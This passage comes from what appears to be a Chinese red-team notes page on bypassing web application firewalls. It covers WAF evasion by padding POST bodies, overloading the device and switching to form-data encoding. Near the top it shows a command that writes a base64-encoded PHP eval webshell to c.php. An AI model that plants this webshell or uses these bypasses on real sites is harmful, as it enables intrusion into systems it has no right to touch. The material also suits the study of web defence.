 - w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

# 来源

![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/7.jpg)

- [Fuzz_head](https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/HTTP/Fuzz_head.txt)
- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

---

# 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题,例如如果是基于数据包的话会考虑检测数据包的包长,如果是基于数据流的话就会考虑检测一条数据流的多少个字节.一般这类算检测的性能,同时为了保证 WAF 的正常运行,往往还会做一个 bypass 设计,在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候,会做检测 bypass,以保证设备的正常运行.

现在问题就是检测多长呢？例如我用 HTTP POST 上传一个 2G 的文件,明显不可能 2G 全做检测不但耗 CPU,同时也会耗内存.因此在设计 WAF 的时候可能就会设计一个默认值,有可能是默认多少个字节的流大小,可能是多少个数据包.

设计了一个脚本,不断的向 HTTP POST 添加填充数据,当将填充数据添加到一定数目之后,发现 POST 中的 sql 注入恶意代码没有被检测了.最终达到了 bypass 的目的.

**性能负载**

一些传统硬件防护设备为了避免在高负载的时候影响用户体验,如延时等等问题,会考虑在高负载的时候 bypass 掉自己的防护功能,等到设备的负载低于门限值的时候又恢复正常工作.

一些高性能的 WAF 可能使用这种方法可能不能 bypass,但是一些软 WAF 使用这种方式还是可以 bypass 的.

例子,将请求并发同时发送多次,多次访问的时候就有几次漏掉了,没有触发 waf 的拦截.

**案例**
- [实战渗透-看我如何拿下自己学校的大屏幕(Bypass) ](https://xz.aliyun.com/t/7786)

---

# POST

urlencode 和 form-data POST 在提交数据的时候有两种方式,第一种方式是使用 urlencode 的方式提交,第二种方式是使用 form-data 的方式提交.当我们在测试站点的时候,如果发现 POST 提交的数据被过滤掉了,此时可以考虑使用 form-data 的方式去提交.

